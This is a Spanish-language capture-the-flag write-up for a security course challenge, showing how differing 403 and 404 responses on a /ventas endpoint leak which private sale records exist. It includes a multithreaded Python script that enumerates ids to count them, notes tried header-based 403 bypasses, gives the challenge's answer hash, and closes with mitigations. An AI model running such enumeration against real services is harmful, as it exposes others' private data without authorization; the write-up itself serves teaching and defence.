

# 🧾 Desafío: Ventas

> ℹ️ **Nota:** Desafío del **curso de ciberseguridad pagado por la empresa** en la plataforma [softwareseguro.com.ar](https://app.softwareseguro.com.ar).

---

### 🧠 Descripción del caso



> *Fernando, un amigo, necesita un favor. Él quiere saber cuántas ventas hizo su competencia.*
>
> *Cuando encuentres cuántas ventas hizo la competencia de Fernando, generá el MD5 de ese número y ese es el código para pasar este desafío.*
>
> *Las ventas se encuentran en la ruta `/ventas`.*

**Objetivo:** averiguar **cuántas ventas** hizo la competencia (un número) y enviar su **MD5** al juez.

---

### 🔍 Análisis técnico

Explorando la ruta `/ventas` se observa este comportamiento:

| Request | Respuesta | Interpretación |
|---|---|---|
| `GET /ventas/` (sin parámetros) | `400 Bad request` | Falta el parámetro requerido |
| `GET /ventas/?id=1` | `403 Forbidden` | La venta **existe** pero no estás autorizado a verla |
| `GET /ventas/?id=2` | `404 Not found` | **No existe** una venta con ese id |
| `GET /ventas/?id=abc` | `404 Not found` | El `id` se castea a entero |

Probé descartar otros vectores:

- **Bypass de 403 por headers** (`X-Forwarded-For`, `X-Real-IP`, `X-Original-URL`, etc.) → **no funciona**, el 403 no depende de IP/headers.
- **SQLi** en `id` → **no**, cualquier valor no-entero cae a 404 (se parsea como int, sin inyección).

La clave está en la diferencia de códigos de estado:

> 💡 El endpoint **nunca** devuelve el contenido de una venta (siempre `403` si existe), **pero** usa un código distinto (`404`) cuando el id **no existe**. Esa diferencia **403 vs 404** filtra la *existencia* de cada registro, aunque no puedas verlo.

---

### 💥 Explotación

Como el servidor delata qué ids existen, se puede **contar las ventas sin autorización para verlas**: basta enumerar el espacio de ids y contar cuántos devuelven `403`.

```python
import requests, hashlib
from concurrent.futures import ThreadPoolExecutor, as_completed

BASE = "https://chl-...-ventas.softwareseguro.com.ar"
H = {"User-Agent": "Mozilla/5.0"}

def estado(i):
    r = requests.get(f"{BASE}/ventas/?id={i}", headers=H, timeout=20)
    return i, r.status_code

codes = {}
with ThreadPoolExecutor(max_workers=25) as ex:
    futs = [ex.submit(estado, i) for i in range(1, 3201)]
    for f in as_completed(futs):
        i, c = f.result()
        codes[i] = c

ventas = sorted(i for i, c in codes.items() if c == 403)
print("Cantidad de ventas:", len(ventas))              # -> 1641
print("MD5:", hashlib.md5(str(len(ventas)).encode()).hexdigest())
```

**Mapeo del rango:** los ids con `403` (ventas existentes) se distribuyen de forma dispersa entre **1 y 2592**. Se verificó que no hay ningún `403` por encima de 2592 (probado hasta id 4000), por lo que la enumeración `1..3200` cubre el universo completo.

---

### ✅ Resultado

| Dato | Valor |
|---|---|
| **Cantidad de ventas de la competencia** (ids con `403`) | **1641** |
| Rango de ids | 1 a 2592 (dispersos) |
| **MD5(1641) → enviado al juez** | `10c272d06794d3e5785d5e7c5356e9ff` |

El juez dio el hash por **válido**. ✅

---

### 🔓 Vulnerabilidad encontrada

**Information Disclosure por respuestas diferenciadas + enumeración (IDOR):**

- El control de acceso oculta el *contenido* de las ventas (`403`), pero **no oculta su existencia**: responde `404` para ids inexistentes y `403` para existentes.
- Esa diferencia permite a un atacante **enumerar y contar** los recursos privados de un tercero sin ninguna autorización para verlos.
- Aunque "solo" se filtra un conteo, en otros contextos esta fuga permite inferir volumen de negocio, cantidad de usuarios, IDs válidos para ataques posteriores, etc.

---

### 🛡️ Mitigación recomendada

- **Respuestas uniformes:** devolver el mismo código (p. ej. `404` o `403`) tanto para recursos inexistentes como para los no autorizados, de modo que el atacante no pueda distinguir existencia.
- **Autorización real:** validar que el usuario tenga permiso sobre el recurso antes de revelar cualquier señal sobre él.
- **Rate limiting** para dificultar la enumeración masiva.
- No usar identificadores **secuenciales/predecibles** como única barrera; combinarlos con control de acceso efectivo.
